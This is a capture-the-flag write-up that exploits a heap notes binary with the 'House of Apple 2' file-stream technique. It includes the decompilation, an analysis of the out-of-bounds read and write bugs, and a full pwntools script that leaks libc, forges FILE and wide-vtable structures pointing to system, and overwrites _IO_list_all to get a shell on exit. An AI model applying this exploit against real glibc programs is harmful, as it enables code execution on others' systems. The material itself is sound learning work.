


# House Of Apple 2 

- we are given a notes app where u can create, delete view notes

## checksec and file and decompilation


```bash
(base) ss@Satwik:/mnt/c/CTFSTuff/STP-2F/STP-Tasks/binex/chall1$ checksec notes_patched
[*] '/mnt/c/CTFSTuff/STP-2F/STP-Tasks/binex/chall1/notes_patched'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    Stripped:   No
(base) ss@Satwik:/mnt/c/CTFSTuff/STP-2F/STP-Tasks/binex/chall1$
```
```bash
(base) ss@Satwik:/mnt/c/CTFSTuff/STP-2F/STP-Tasks/binex/chall1$ file notes_patched
notes_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.34.so, for GNU/Linux 4.4.0, BuildID[sha1]=809a309c02a3f676296f397d2b3534aa63c5a4e3, not stripped
```
```c

int64_t (* const)() _init()
{
    if (!__gmon_start__)
        return __gmon_start__;
    
    return __gmon_start__();
}

int64_t sub_401020()
{
    int64_t var_8 = 0;
    /* jump -> nullptr */
}

void free(void* mem)
{
    /* tailcall */
    return free(mem);
}

int64_t sub_401036()
{
    int64_t var_8 = 0;
    /* tailcall */
    return sub_401020();
}

int32_t puts(char const* str)
{
    /* tailcall */
    return puts(str);
}

int64_t sub_401046()
{
    int64_t var_8 = 1;
    /* tailcall */
    return sub_401020();
}

void __stack_chk_fail() __noreturn
{
    /* tailcall */
    return __stack_chk_fail();
}

int64_t sub_401056()
{
    int64_t var_8 = 2;
    /* tailcall */
    return sub_401020();
}

int32_t printf(char const* format, ...)
{
    /* tailcall */
    return printf(format);
}

int64_t sub_401066()
{
    int64_t var_8 = 3;
    /* tailcall */
    return sub_401020();
}

uint64_t strcspn(char const* arg1, char const* arg2)
{
    /* tailcall */
    return strcspn(arg1, arg2);
}

int64_t sub_401076()
{
    int64_t var_8 = 4;
    /* tailcall */
    return sub_401020();
}

char* fgets(char* buf, int32_t n, FILE* fp)
{
    /* tailcall */
    return fgets(buf, n, fp);
}

int64_t sub_401086()
{
    int64_t var_8 = 5;
    /* tailcall */
    return sub_401020();
}

int32_t getchar()
{
    /* tailcall */
    return getchar();
}

int64_t sub_401096()
{
    int64_t var_8 = 6;
    /* tailcall */
    return sub_401020();
}

int64_t malloc(uint64_t bytes)
{
    /* tailcall */
    return malloc(bytes);
}

int64_t sub_4010a6()
{
    int64_t var_8 = 7;
    /* tailcall */
    return sub_401020();
}

int32_t setvbuf(FILE* fp, char* buf, int32_t mode, uint64_t size)
{
    /* tailcall */
    return setvbuf(fp, buf, mode, size);
}

int64_t sub_4010b6()
{
    int64_t var_8 = 8;
    /* tailcall */
    return sub_401020();
}

int32_t __isoc99_scanf(char const* format, ...)
{
    /* tailcall */
    return __isoc99_scanf(format);
}

int64_t sub_4010c6()
{
    int64_t var_8 = 9;
    /* tailcall */
    return sub_401020();
}

uint64_t fwrite(void const* buf, uint64_t size, uint64_t count, FILE* fp)
{
    /* tailcall */
    return fwrite(buf, size, count, fp);
}

int64_t sub_4010d6()
{
    int64_t var_8 = 0xa;
    /* tailcall */
    return sub_401020();
}

void _start(int64_t arg1, int64_t arg2, void (* arg3)()) __noreturn
{
    int64_t stack_end_1;
    int64_t stack_end = stack_end_1;
    void ubp_av;
    __libc_start_main(main, __return_addr, &ubp_av, nullptr, nullptr, arg3, &stack_end);
    /* no return */
}

int64_t (* const)() deregister_tm_clones()
{
    return &__TMC_END__;
}

int64_t (* const)() sub_401140()
{
    return nullptr;
}

void _FINI_0()
{
    if (data_404048)
        return;
    
    if (__cxa_finalize)
        __cxa_finalize(__dso_handle);
    
    deregister_tm_clones();
    data_404048 = 1;
}

int64_t (* const)() _INIT_0()
{
    /* tailcall */
    return sub_401140();
}

int64_t setup()
{
    setvbuf(stdin, nullptr, 2, 0);
    return setvbuf(__bss_start, nullptr, 2, 0);
}

int64_t menu()
{
    puts("\n[ MENU ]\n");
    return puts("[1] CREATE NOTE\n[2] DELETE NOTE\n[3] READ NOTE\n[4] WRITE NOTE\n[5] EXIT\n");
}

int64_t create_note()
{
    void* fsbase;
    int64_t rax = *(fsbase + 0x28);
    int32_t i_1 = 0xffffffff;
    
    for (int32_t i = 0; i <= 9; i += 1)
    {
        if (!*((i << 4) + &data_404088))
        {
            i_1 = i;
            break;
        }
    }
    
    int64_t result;
    
    if (i_1 != 0xffffffff)
    {
        printf("ENTER SIZE: ");
        int32_t n;
        __isoc99_scanf("%d", &n);
        *((i_1 << 4) + &notes) = malloc(n);
        
        if (*((i_1 << 4) + &notes))
        {
            printf("\nENTER NOTE (MAX %d CHARS): ", n - 1);
            getchar();
            fgets(*((i_1 << 4) + &notes), n, stdin);
            *(strcspn(*((i_1 << 4) + &notes), "\n") + *((i_1 << 4) + &notes)) = 0;
            printf("%s", "< BACK");
            *((i_1 << 4) + &data_404088) = 1;
            result = 0;
        }
        else
        {
            puts("\n!! MEMORY ALLOCATION FAILED !!");
            result = 0xffffffff;
        }
    }
    else
    {
        puts("\n!! NO SPACE FOR NEW NOTE !!");
        result = 0xffffffff;
    }
    
    *(fsbase + 0x28);
    
    if (rax == *(fsbase + 0x28))
        return result;
    
    __stack_chk_fail();
    /* no return */
}

int64_t delete_note()
{
    void* fsbase;
    int64_t rax = *(fsbase + 0x28);
    int32_t var_14 = 0;
    printf("\nENTER INDEX: ");
    __isoc99_scanf("%1d", &var_14);
    getchar();
    int64_t result;
    
    if (var_14 < 0 || var_14 > 9 || !*((var_14 << 4) + &data_404088))
    {
        puts("\n!! INVALID NOTE INDEX !!");
        result = 0xffffffff;
    }
    else
    {
        free(*((var_14 << 4) + &notes));
        *((var_14 << 4) + &notes) = 0;
        *((var_14 << 4) + &data_404088) = 0;
        printf("%s", "< BACK");
        result = 0;
    }
    
    *(fsbase + 0x28);
    
    if (rax == *(fsbase + 0x28))
        return result;
    
    __stack_chk_fail();
    /* no return */
}

int64_t write_note()
{
    void* fsbase;
    int64_t rax = *(fsbase + 0x28);
    int32_t var_1c = 0;
    int64_t var_18 = 0;
    printf("\nENTER NOTE INDEX: ");
    __isoc99_scanf("%3d", &var_1c);
    int64_t result;
    
    if (var_1c < 0 || var_1c > 9 || !*((var_1c << 4) + &data_404088))
    {
        puts("\n!! INVALID NOTE INDEX !!");
        result = 0xffffffff;
    }
    else
    {
        printf("ENTER WRITE INDEX: ");
        __isoc99_scanf("%ld", &var_18);
        printf("ENTER DATA: ");
        __isoc99_scanf("%s", *((var_1c << 4) + &notes) + var_18);
        printf("%s", "< BACK");
        result = 0;
    }
    
    *(fsbase + 0x28);
    
    if (rax == *(fsbase + 0x28))
        return result;
    
    __stack_chk_fail();
    /* no return */
}

int64_t read_note()
{
    void* fsbase;
    int64_t rax = *(fsbase + 0x28);
    int32_t var_14 = 0;
    int64_t result;
    
    if (use.0 > 1)
    {
        puts("\n?? GET SPOTIFY PREMIUM ??");
        printf("%s", "< BACK");
        result = 0;
    }
    else
    {
        printf("\nENTER INDEX: ");
        __isoc99_scanf("%3d", &var_14);
        getchar();
        
        if (var_14 <= 0xa)
        {
            printf("NOTE: %s\n", &notes + (var_14 << 4));
            printf("%s", "< BACK");
            use.0 += 1;
            result = 0;
        }
        else
        {
            puts("\n!! INVALID NOTE INDEX !!");
            result = 0xffffffff;
        }
    }
    
    *(fsbase + 0x28);
    
    if (rax == *(fsbase + 0x28))
        return result;
    
    __stack_chk_fail();
    /* no return */
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    void* fsbase;
    int64_t rax = *(fsbase + 0x28);
    setup();
    
    while (true)
    {
        menu();
        printf(">> ");
        int32_t var_14;
        __isoc99_scanf("%1d", &var_14);
        int32_t rax_5 = var_14;
        
        if (rax_5 > 5)
            puts("[ INVALID CHOICE ]");
        else
            switch (rax_5)
            {
                case 0:
                {
                    printf("[ UNDER CONSTRUCTION :( ]");
                    continue;
                }
                case 1:
                {
                    if (!create_note())
                        continue;
                    else
                    {
                        fwrite("\n!! NOTE CREATION FAIL !!\n", 1, 0x1a, stderr);
                        continue;
                    }
                    break;
                }
                case 2:
                {
                    if (!delete_note())
                        continue;
                    else
                    {
                        fwrite("\n!! NOTE DELETION FAIL !!\n", 1, 0x1a, stderr);
                        continue;
                    }
                    break;
                }
                case 3:
                {
                    if (!read_note())
                        continue;
                    else
                    {
                        fwrite("\n!! NOTE ACCESS FAIL !!\n", 1, 0x18, stderr);
                        continue;
                    }
                    break;
                }
                case 4:
                {
                    if (!write_note())
                        continue;
                    else
                    {
                        fwrite("\n!! NOTE WRITE FAIL !!\n", 1, 0x17, stderr);
                        continue;
                    }
                    break;
                }
                case 5:
                {
                    break;
                    break;
                }
            }
    }
    
    puts("\n[ THANK YOU ]");
    *(fsbase + 0x28);
    
    if (rax == *(fsbase + 0x28))
        return 0;
    
    __stack_chk_fail();
    /* no return */
}

int64_t _fini() __pure
{
    return;
}
```


- Lets analyse the decompilation.


## main

```
void* fsbase;
    int64_t rax = *(fsbase + 0x28);
```

- this looks like stack canary protection
- setup() : disables buffering for stdin and stdout  i.e no input is required to flush the buffers.
- lets talk about the choices:
- 0. under construction : does nothing
- 1. create note - allocates memory for a note of user specified size and stores it in an array notes[10] (16 bytes each)
- 2. delete note - frees the note at user specified index
- 3. read note - prints the note at user specified index
- 4. write note - writes data to the note at user specified index and offset
- 5. exit - exits the program
- there is a variable use.0 which is incremented each time we read a note and if it exceeds 1 it prints a message and returns.

# menu


- just takes input and displays the menu options


# create_note


- checks for free index in notes array
- takes size input and allocates memory for the note
- takes note input using fgets
- stores the note in notes array
- sets the corresponding index in `data_404088` to 1 indicating that the note is created.

# delete_note
- takes index input
- frees the note at the index
- sets the corresponding index in `data_404088` to 0 indicating that the note is deleted.
- 
# write_note


- takes index and offset input
- takes data input and writes it to the note at the index and offset using scanf
- no bounds checking on offset
- this is a vulnerability as we can write beyond the allocated size of the note and overwrite other notes or control data.

# read_note
- takes index input
- prints the note at the index
- increments use.0
- if use.0 exceeds 1 it prints a message and returns without printing the note.
- this allows us to read only 2 notes.
  

# Exploitation

- This is a heap exploitation challenge. [my heap knowledge is limited since i just started doing dynamic allocator misuse in pwn.college recently but ill try my best]

- we are given the libc file aswell through which we can find the system address and "/bin/sh" string address.

- Its full relro so no GOT overwrite which is unlucky since there was a printf in write_note function.


- What we have rn :

    - arbitrary write in write_note function
    - heap write in create_note function
    - 2 reads in read_note function
  

  


  - there is no bounds check in read_note so we can use -16 as index to get hte free@got.plt address and leak libc.
  - we can then calc libc base address and any other address in libc that we require.
  
  - we have STDIN stout and its a heap chall so its prolly FSOP since gib ver 2.4 doesnt have free hook or __malloc_hook.

- we can make a FILE structure in index 0 note and get a heap pointer leak reading index 0.

- now that we have heap pointer leak i did 

```py
pwndbg> p &_IO_list_all
$1 = (struct _IO_FILE_plus **) 0x7ffff7fb1660 <__GI__IO_list_all>
```

to get the address of _IO_list_all in libc.

we can use our arbitrary write to overwrite _IO_list_all with the address of our fake FILE structure in index 0 note.

- after exit we get the shell.

## exploit script and explanation

```py
from pwn import *
import time


elf = ELF('./notes_patched')
libc = ELF('./libc.so.6')

context.binary = elf
context.terminal = ["tmux", "splitw", "-h"] 


p = process('./notes_patched')


def create(size, content):
    p.sendlineafter(b'>> ', b'1')
    p.sendlineafter(b'SIZE: ', str(size).encode())
    p.sendlineafter(b'CHARS): ', content)

def read_note(idx):
    p.sendlineafter(b'>> ', b'3')
    p.sendlineafter(b'INDEX: ', str(idx).encode())
    p.recvuntil(b'NOTE: ')
    
    data = p.recvuntil(b'< BACK', drop=True)
    
    if data.endswith(b'\n'):
        data = data[:-1]
    return data

def write_note(idx, offset, content):
    p.sendlineafter(b'>> ', b'4')
    p.sendlineafter(b'INDEX: ', str(idx).encode())
    p.sendlineafter(b'INDEX: ', str(offset).encode())
    p.sendlineafter(b'DATA: ', content)
    time.sleep(0.05) 


log.info("libc leak")
# Index -16 points to free@got
libc_leak = u64(read_note(-16).ljust(8, b'\x00'))
libc.address = libc_leak - libc.sym['free']
log.success(f"Libc Base: {hex(libc.address)}")


offset_FILE = 0x00
offset_wide_data = 0x100
offset_wide_vtable = 0x200 # Moved to 0x200 to avoid overlap


fake_file = flat({
    0x00: u64(b"  sh\x00\x00\x00\x00"), # _flags: "  sh" passed to system
    0x88: 0,                         # _lock: arbitrary location in our file
    0xa0: 0,                         # _wide_data: at 0x100 from start of heap ptr
    0xc0: 1,                         # _mode: 1 uses the IO_write_base and _IO_write_ptr of wdie data structure and and if _mode is 0 it uses the normal offsets in ther FILE struct so it doesnt really matter where we use it imo 
    0xd8: libc.sym['_IO_wfile_jumps']# vtable: _IO_wfile_jumps
}, length=224, filler=b'\x00')


wide_data = flat({
    0x18: 0, # _IO_write_base
    0x20: 1, # _IO_write_ptr
    0xe0: 0  # _wide_vtable pointer we will patch it to point to wide_vtable with heap leak
}, length=0x100, filler=b'\x00')


wide_vtable = flat({
    0x68: libc.sym['system']
}, length=0x80, filler=b'\x00')

payload = fake_file.ljust(offset_wide_data, b'\x00')
payload += wide_data.ljust(offset_wide_vtable - offset_wide_data, b'\x00')
payload += wide_vtable

log.info("first note at index 0 with our fake file and leaking heap ptr")
create(20000, payload)


heap_ptr = u64(read_note(0).ljust(8, b'\x00'))
log.success(f"Heap Pointer: {hex(heap_ptr)}")


log.info("patching.")


write_note(0, 0x88, p64(heap_ptr + 0x10))

# point to wide_data struct heap_ptr + 0x100
write_note(0, 0xa0, p64(heap_ptr + offset_wide_data))

# point to wide_vtable heap_ptr + 0x200
write_note(0, 0x1e0, p64(heap_ptr + offset_wide_vtable))


log.info("Overwriting _IO_list_all.")
io_list_all = libc.sym['_IO_list_all']
offset_to_io_list_all = io_list_all - heap_ptr

#overwrite _IO_list_all with pointer to our fake FILE struct
write_note(0, offset_to_io_list_all, p64(heap_ptr))

# log.success("gdb.")


# pause()
# print("unpaused by mistake restart the process")

p.sendlineafter(b'>> ', b'5')
p.interactive()
```
  
# more explanation of how file str work and other facts about FSOP
- Ill start the explanation from the FILE structure creation part since i explained the initial part already.

```bash
pwndbg> ptype /o struct _IO_FILE_plus
/* offset      |    size */  type = struct _IO_FILE_plus {
/*      0      |     216 */    FILE file;
/*    216      |       8 */    const struct _IO_jump_t *vtable;

                               /* total size (bytes):  224 */
                             }
pwndbg> ptype /o struct _IO_FILE
/* offset      |    size */  type = struct _IO_FILE {
/*      0      |       4 */    int _flags;
/* XXX  4-byte hole      */
/*      8      |       8 */    char *_IO_read_ptr;
/*     16      |       8 */    char *_IO_read_end;
/*     24      |       8 */    char *_IO_read_base;
/*     32      |       8 */    char *_IO_write_base;
/*     40      |       8 */    char *_IO_write_ptr;
/*     48      |       8 */    char *_IO_write_end;
/*     56      |       8 */    char *_IO_buf_base;
/*     64      |       8 */    char *_IO_buf_end;
/*     72      |       8 */    char *_IO_save_base;
/*     80      |       8 */    char *_IO_backup_base;
/*     88      |       8 */    char *_IO_save_end;
/*     96      |       8 */    struct _IO_marker *_markers;
/*    104      |       8 */    struct _IO_FILE *_chain;
/*    112      |       4 */    int _fileno;
/*    116      |       4 */    int _flags2;
/*    120      |       8 */    __off_t _old_offset;
/*    128      |       2 */    unsigned short _cur_column;
/*    130      |       1 */    signed char _vtable_offset;
/*    131      |       1 */    char _shortbuf[1];
/* XXX  4-byte hole      */
/*    136      |       8 */    _IO_lock_t *_lock;
/*    144      |       8 */    __off64_t _offset;
/*    152      |       8 */    struct _IO_codecvt *_codecvt;
/*    160      |       8 */    struct _IO_wide_data *_wide_data;
/*    168      |       8 */    struct _IO_FILE *_freeres_list;
/*    176      |       8 */    void *_freeres_buf;
/*    184      |       8 */    size_t __pad5;
/*    192      |       4 */    int _mode;
/*    196      |      20 */    char _unused2[20];

                               /* total size (bytes):  216 */
                             }
```


- we can use pwndbg to get the structure of FILE and _IO_FILE_plus

- Glibc flushes all file streams in _IO_list_all on exit.
  
- basically what this means is GLIBC writes all data from all open file streams to their respective files on program exit.
- 
- if we can control a FILE structure and put it in _IO_list_all we can get code execution on exit since we can make it call system with our desired argument.

- first we use the create_note function to create a note at index 0 with our fake FILE structure.

 - https://niftic.ca/posts/fsop/#angry-fsrop
 - here there is an exploit called House of apple 2 which uses the wide_table to put a one_gadget and then calling exit to get the shell.
 - but since we have system in libc we can use that instead of one_gadget.
 - first we determine offsets of wide_data and wide_vtable from the start of FILE structure.
 - I tried using PWNtools to create the FILE structure but it was giving me issues so i created it manually using flat function.
 - the real FILE structure is 216 bytes and with vtable its 224 bytes. but we can ignore some of the fields and it will still work but their offsets should be correct so that glibc reads the correct values.


   - we make a fake IO_FILE_PLUS FILE structure that simulates the one from from the pwnmtools structure.


  - we set _flags to "  sh" so that when system is called it executes "  sh" which is same as "/bin/sh" since system( ) is called with flags as argument.
  - flags_ is used for various purposes including indicating the mode of the file (read, write, append), error states, and other status information but here we are using it to store our command so when system(fp->_flags) is called it executes shell.


  - glibc expects _lock to be a valid pointer so we set it to 0 initially and later patch it to point to writable memory. 

  - next we set _wide_data to 0 initially and later patch it to point to our wide_data structure. wide data is used for wide character support in file streams for international chars that donot come under ASCII. 
  
  - we set _mode to 1 to trigger wide stream strcut usage IO_base and IO_write ptr where io_write_base< io_write_ptr always. basically what glibc does is if(fp->_mode > 0) it uses widetable ptrs to setup buffer i think for reading and writing. im not too sure about this i couldnt find any credible source for this
  

  - next at 0xd8 acc to the shcema we have vtable pointer so we set it to _IO_wfile_jumps which contains the function pointers for wide character file operations.

  - vtable is set to _IO_wfile_jumps which contains the function pointers for wide character file operations.
  

## wide_data structure

- next we create wide_data structure at offset 0x100 from start of FILE structure.
- _IO_write_base is set to 0 and _IO_write_ptr is set to 1 to indicate that there is data to be written. 
- what does _IO_write_base and _IO_write_ptr do?
- _IO_write_base points to the start of the write buffer, while _IO_write_ptr points to the current position in the buffer where the next character will be written.
- if _IO_write_ptr is greater than _IO_write_base, it indicates that there is data in the buffer that needs to be written out to the underlying file or device.
- like IO_FILE_PLUS structure has vtable pointer wide_data also has a vtable pointer at offset 0xe0 which we will patch later to point to our wide_vtable structure.
  
## wide_vtable structure

- next we create wide_vtable structure at offset 0x200 from start of FILE structure.
- we set the function pointer for the write operation to system.
- what does this mean?
- when glibc tries to write data from the file stream it will call system instead of the normal write function.
- so instead of writing data to a file it will execute our command.

- payload is created by concatenating the three structures with appropriate padding.
- `ljust` is used to add padding between the structures to ensure they are at the correct offsets. it left-justified with null bytes. and then adds the wide_data and wide_vtable structures at their respective offsets.


## code continued

- now with our payload we call create function to create note at index 0 with our fake FILE structure.
- then we read note at index 0 to leak a heap pointer.
- then we check if there is any byte that might fail payload since scanfs stops at certain bytes.
- if it there is we can retry our exploit thx aslr
- now in the first patch we write heap_ptr + 0x10 to _lock field to make it a valid pointer. why 0x10? `because its just some writable memory in the heap chunk.` so the glibc wont crash trying to dereference it.
- 2nd patch we write heap_ptr + 0x100 to _wide_data field to point to our wide_data structure. so that glibc reads the correct values.
- 3rd patch we write heap_ptr + 0x200 to wide_vtable pointer in wide_data structure to point to our wide_vtable structure.


## IO_list_all overwrite

- now we calculate the offset of _IO_list_all from the leaked heap pointer. we get offset from `io_list_all - heap_ptr`
- io_list_all is a global variable in libc that points to the head of a linked list of all open file streams. we get this from our libc leak.
- now we use our arbitrary write to overwrite _IO_list_all with the address of our fake FILE structure in index 0 note.
- now when the program exits glibc will flush all file streams in _IO_list_all and it will call system with our command and we get the shell.
- in IO_LIST_ALL only our FILE is left so only that runs and we when we exit we get the shell.


# proof of shell



# Flag

flag{LFG} (I made the flag on my own)

- learning exit controlled FSOP technique which is called `HOUSE OF APPLE 2` from niftic blog.


# Understanding FSOP in Glibc


- IO_LIST_ALL is a global variable in glibc that points to the head of a linked list of all open file streams. Each file stream is represented by a FILE structure, which contains information about the file, such as its mode (read, write, append), buffer pointers, and function pointers for various operations (read, write, flush, etc.).

- IO_FILE_PLUS is an extended version of the FILE structure that includes a pointer to a vtable (virtual table) containing function pointers for various file operations. This allows for polymorphism, where different types of file streams can have different implementations of the same operations.

- wide_data is a structure used in conjunction with wide character file streams. It contains additional information and function pointers specific to wide character operations.


- vtable is a table of function pointers used in object-oriented programming to support dynamic dispatch. In the context of file streams, it allows different types of file streams to have different implementations of the same operations.

- source : https://4xura.com/writeups-for-ctfs/pwn-travelgraph/#toc-head-29
- ive used all the info from here to write the writeup to the best of my knowledge

# why wide_table?

- Abuse the fact that there is no check on the validity of the _wide_data vtable. Craft a fake jump table and put a one_gadget at the right offset. Trigger the payload by returning from main, calling exit or force a call to __malloc_assert.

- HOUSE OF APPLE 2 ref : https://4xura.com/writeups-for-ctfs/pwn-travelgraph/

- FP is passed in RDI register when system is called from vtable so we set _flags to "  sh" so that when system is called it executes "  sh" which is same as "/bin/sh" since system( ) is called with flags as argument.
- so flags_ in other scenarios for indicating mode etc so it must be in rdi when any function is called from vtable.

# high level overview of how system(fp->_flags) is called

- When a file stream is flushed, glibc checks if the stream is a wide character stream by looking at the _mode field. If _mode is greater than 0, it uses the wide character functions for reading and writing.
- If the stream is a wide character stream, glibc retrieves the vtable pointer from the _wide_data structure. The vtable contains function pointers for various operations, including the write operation.
- For wide-character streams, the overflow handler is: _IO_wfile_overflow(fp)
- Inside _IO_wfile_overflow, glibc checks if there is data to be written by comparing _IO_write_ptr and _IO_write_base. If there is data to be written, it retrieves the function pointer for the write operation from the vtable.
- our function ptr for write operation points to system.
- so glibc writes system() instead of writing data to a file.
- When system() is called, it receives the _flags field of the FILE structure as its argument. In our case, we set _flags to "  sh", so system() executes a shell command to spawn a shell.

```c
void _IO_wdoallocbuf(_IO_FILE *fp) {
    struct _IO_wide_data *wd = fp->_wide_data;

    if (wd->_wide_vtable->doallocate)
        wd->_wide_vtable->doallocate(fp);
}

```

- (fixing a misconception) _mode only determines which 
- also our IO_base and IO_ptr values in wide_data/FILE strcut depending on mode value structure indicate that there is data to be written so system is called. so 0 and 1 respectively.
- `doallocate` makes a bufferbut it doesnt really matter what it does
- now system(fp) is called.
- how is fp->_flags? system argument requires a char* ptr but fp is our heap leak pinter which is poitning to *FILE. but glibc doesnt char what it is it just looks for bytes and at the start of fp we have placed "  sh" so system executes that. generally _flag is an int but in assembly all data is just bytes and glibc trusts any bytes it gets .

## things to note
- the arg to system is only (fp) so we have to make sure that at the start of fp we have our command.
- fp is just the start of our fake FILE structure so we put "  sh" at the start of our fake FILE structure.
- fp is our heap pointer since we overwrote _IO_list_all with heap pointer of our fake FILE structure.
- scanf stops at some magic bytes.

# Resources
- https://niftic.ca/posts/fsop/#angry-fsrop

